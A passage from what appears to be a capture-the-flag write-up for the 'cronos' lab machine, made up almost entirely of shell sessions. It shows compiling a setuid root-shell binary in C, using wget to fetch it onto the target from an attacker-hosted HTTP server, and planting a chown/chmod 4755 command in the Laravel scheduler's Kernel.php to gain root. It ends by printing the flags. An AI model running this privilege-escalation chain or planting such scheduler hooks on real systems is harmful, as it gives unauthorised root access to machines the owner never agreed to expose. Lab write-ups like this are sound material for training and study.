       setresuid(0, 0, 0);
       system("/bin/bash");
}
l64@l64-virtual-machine:~/Desktop$ gcc suid.c -o suid
suid.c: In function main:
suid.c:2:8: warning: implicit declaration of function setresuid [-Wimplicit-function-declaration]
        setresuid(0, 0, 0);
        ^~~~~~~~~
suid.c:3:8: warning: implicit declaration of function system [-Wimplicit-function-declaration]
        system("/bin/bash");
        ^~~~~~
l64@l64-virtual-machine:~/Desktop$ ./suid 
l64@l64-virtual-machine:~/Desktop$ file suid
suid: ELF 64-bit LSB shared object, x86-64, version 1 (SYSV), dynamically linked, interpreter /lib64/ld-linux-x86-64.so.2, for GNU/Linux 3.2.0, BuildID[sha1]=9d11e0debaf46edcaf4aa1e48ca855d832246079, not stripped
l64@l64-virtual-machine:~/Desktop$
```

```sh
root@kali:~/cronos# wget http://192.168.1.3:8000/suid
--2018-01-27 13:16:47--  http://192.168.1.3:8000/suid
Connecting to 192.168.1.3:8000... connected.
HTTP request sent, awaiting response... 200 OK
Length: 8344 (8.1K) [application/octet-stream]
Saving to: suid

suid                                               100%[================================================================================================================>]   8.15K  --.-KB/s    in 0s

2018-01-27 13:16:47 (101 MB/s) - suid saved [8344/8344]

root@kali:~/cronos# file suid
suid: ELF 64-bit LSB shared object, x86-64, version 1 (SYSV), dynamically linked, interpreter /lib64/ld-linux-x86-64.so.2, for GNU/Linux 3.2.0, BuildID[sha1]=9d11e0debaf46edcaf4aa1e48ca855d832246079, not stripped
root@kali:~/cronos#
```

```sh
www-data@cronos:/dev/shm$ wget http://10.10.14.8:8000/suid
--2018-01-27 20:18:21--  http://10.10.14.8:8000/suid
Connecting to 10.10.14.8:8000... connected.
HTTP request sent, awaiting response... 200 OK
Length: 8344 (8.1K) [application/octet-stream]
Saving to: 'suid'

suid                                               100%[================================================================================================================>]   8.15K  --.-KB/s    in 0s

2018-01-27 20:18:22 (63.0 MB/s) - 'suid' saved [8344/8344]

www-data@cronos:/dev/shm$ file suid
suid: ELF 64-bit LSB shared object, x86-64, version 1 (SYSV), dynamically linked, interpreter /lib64/ld-linux-x86-64.so.2, for GNU/Linux 3.2.0, BuildID[sha1]=9d11e0debaf46edcaf4aa1e48ca855d832246079, not stripped
www-data@cronos:/dev/shm$
www-data@cronos:/dev/shm$ chmod +x suid
www-data@cronos:/dev/shm$ ./suid
www-data@cronos:/dev/shm$
www-data@cronos:/dev/shm$ cp suid /tmp/
www-data@cronos:/dev/shm$ ls -l /tmp/suid
-rwxr-xr-x 1 www-data www-data 8344 Jan 27 20:23 /tmp/suid
www-data@cronos:/dev/shm$
```

```sh
www-data@cronos:/dev/shm$ vi /var/www/laravel/app/Console/Kernel.php
```


```sh
<?php

namespace App\Console;

use Illuminate\Console\Scheduling\Schedule;
use Illuminate\Foundation\Console\Kernel as ConsoleKernel;

class Kernel extends ConsoleKernel
{
    /**
     * The Artisan commands provided by your application.
     *
     * @var array
     */
    protected $commands = [
        //
    ];

    /**
     * Define the application's command schedule.
     *
     * @param  \Illuminate\Console\Scheduling\Schedule  $schedule
     * @return void
     */
    protected function schedule(Schedule $schedule)
    {
        $schedule->exec('chown root:root /tmp/suid; chmod 4755 /tmp/suid')->everyMinute();
        // $schedule->command('inspire')
        //          ->hourly();
    }

    /**
     * Register the Closure based commands for the application.
     *
     * @return void
     */
    protected function commands()
    {
        require base_path('routes/console.php');
    }
}
```

```sh
root@cronos:/tmp# mount
sysfs on /sys type sysfs (rw,nosuid,nodev,noexec,relatime)
proc on /proc type proc (rw,nosuid,nodev,noexec,relatime)
udev on /dev type devtmpfs (rw,nosuid,relatime,size=488008k,nr_inodes=122002,mode=755)
devpts on /dev/pts type devpts (rw,nosuid,noexec,relatime,gid=5,mode=620,ptmxmode=000)
tmpfs on /run type tmpfs (rw,nosuid,noexec,relatime,size=101604k,mode=755)
/dev/mapper/cronos--vg-root on / type ext4 (rw,relatime,errors=remount-ro,data=ordered)
securityfs on /sys/kernel/security type securityfs (rw,nosuid,nodev,noexec,relatime)
tmpfs on /dev/shm type tmpfs (rw,nosuid,nodev)
tmpfs on /run/lock type tmpfs (rw,nosuid,nodev,noexec,relatime,size=5120k)
tmpfs on /sys/fs/cgroup type tmpfs (ro,nosuid,nodev,noexec,mode=755)
cgroup on /sys/fs/cgroup/systemd type cgroup (rw,nosuid,nodev,noexec,relatime,xattr,release_agent=/lib/systemd/systemd-cgroups-agent,name=systemd)
pstore on /sys/fs/pstore type pstore (rw,nosuid,nodev,noexec,relatime)
cgroup on /sys/fs/cgroup/devices type cgroup (rw,nosuid,nodev,noexec,relatime,devices)
cgroup on /sys/fs/cgroup/perf_event type cgroup (rw,nosuid,nodev,noexec,relatime,perf_event)
cgroup on /sys/fs/cgroup/net_cls,net_prio type cgroup (rw,nosuid,nodev,noexec,relatime,net_cls,net_prio)
cgroup on /sys/fs/cgroup/freezer type cgroup (rw,nosuid,nodev,noexec,relatime,freezer)
cgroup on /sys/fs/cgroup/hugetlb type cgroup (rw,nosuid,nodev,noexec,relatime,hugetlb)
cgroup on /sys/fs/cgroup/blkio type cgroup (rw,nosuid,nodev,noexec,relatime,blkio)
cgroup on /sys/fs/cgroup/cpuset type cgroup (rw,nosuid,nodev,noexec,relatime,cpuset)
cgroup on /sys/fs/cgroup/pids type cgroup (rw,nosuid,nodev,noexec,relatime,pids)
cgroup on /sys/fs/cgroup/cpu,cpuacct type cgroup (rw,nosuid,nodev,noexec,relatime,cpu,cpuacct)
cgroup on /sys/fs/cgroup/memory type cgroup (rw,nosuid,nodev,noexec,relatime,memory)
hugetlbfs on /dev/hugepages type hugetlbfs (rw,relatime)
mqueue on /dev/mqueue type mqueue (rw,relatime)
systemd-1 on /proc/sys/fs/binfmt_misc type autofs (rw,relatime,fd=36,pgrp=1,timeout=0,minproto=5,maxproto=5,direct)
debugfs on /sys/kernel/debug type debugfs (rw,relatime)
fusectl on /sys/fs/fuse/connections type fusectl (rw,relatime)
/dev/sda1 on /boot type ext2 (rw,relatime,block_validity,barrier,user_xattr,acl)
lxcfs on /var/lib/lxcfs type fuse.lxcfs (rw,nosuid,nodev,relatime,user_id=0,group_id=0,allow_other)
binfmt_misc on /proc/sys/fs/binfmt_misc type binfmt_misc (rw,relatime)
root@cronos:/tmp#
```

```sh
www-data@cronos:/dev/shm$ cd /tmp/
www-data@cronos:/tmp$ ls -l
total 20
prw-r--r-- 1 www-data www-data    0 Jan 27 20:25 f
-rw-r--r-- 1 root     root        0 Jan 27 20:22 kan1shka
-rwsr-xr-x 1 root     root     8344 Jan 27 20:23 suid
drwx------ 3 root     root     4096 Jan 25 22:18 systemd-private-52c924bdc6274bddab900912a7317301-systemd-timesyncd.service-RAYL6l
drwx------ 2 root     root     4096 Jan 25 22:21 vmware-root
www-data@cronos:/tmp$ ./suid
root@cronos:/tmp# id
uid=0(root) gid=33(www-data) groups=33(www-data)
root@cronos:/tmp#
```

```sh
root@cronos:/home/noulis# cat user.txt
51d236438b333970dbba7dc3089be33b
root@cronos:/home/noulis#
```

```sh
root@cronos:/root# cat root.txt
1703b8a3c9a8dde879942c79d02fd3a0
root@cronos:/root#
```